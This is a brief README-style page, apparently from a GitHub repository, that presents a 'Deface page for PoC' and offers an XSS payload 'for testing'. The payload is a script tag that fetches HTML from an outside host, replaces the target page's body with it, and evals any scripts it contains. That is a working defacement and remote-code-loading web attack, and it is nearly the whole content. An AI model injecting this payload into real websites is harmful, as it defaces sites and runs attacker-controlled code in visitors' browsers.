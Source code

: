 #  This is my Deface page for PoC
use the following paylods for testing .
```
<script> fetch('https://karthikdude.github.io/Deface/') .then(response => response.text()) .then(html => { document.body.innerHTML = html; const scripts = document.body.getElementsByTagName('script'); for (let script of scripts) { eval(script.innerText); } }); </script>
